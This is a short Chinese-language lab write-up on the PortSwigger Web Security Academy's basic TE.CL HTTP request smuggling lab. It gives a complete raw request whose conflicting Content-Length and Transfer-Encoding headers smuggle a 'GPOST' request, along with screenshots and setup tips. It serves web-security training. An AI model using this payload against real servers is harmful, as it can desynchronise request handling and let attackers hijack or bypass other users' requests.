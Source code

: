 同时要关闭这个自动更新

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1753353623107-359bc77e-d51a-44be-92a7-bc30095f87c8.png)

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1753353413983-ee134b01-4e79-462c-8ecf-81d511bb5867.png)

[Lab: HTTP request smuggling, basic TE.CL vulnerability | Web Security Academy](https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl)

这里一定要采用 HTTP/1.1

```http
POST / HTTP/1.1
Host: 0a5a009f03154cfa813ea778004a0065.web-security-academy.net
Cookie: session=1qbVYu3RXnnx9qEAszSlW8T7pYriGRjJ
Cache-Control: max-age=0
Sec-Ch-Ua: "Not)A;Brand";v="8", "Chromium";v="138", "Google Chrome";v="138"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-US,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-CN;q=0.6
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

第一次请求

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1753353475498-c7234785-8131-4841-a0e6-6fd3b96367c3.png)

第二次请求

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1753353220791-20167653-ff62-4133-9a77-2a1dd6d3606b.png)





#### <font style="color:rgb(0, 19, 80);">基本的 CL.TE 漏洞</font>
对应靶场

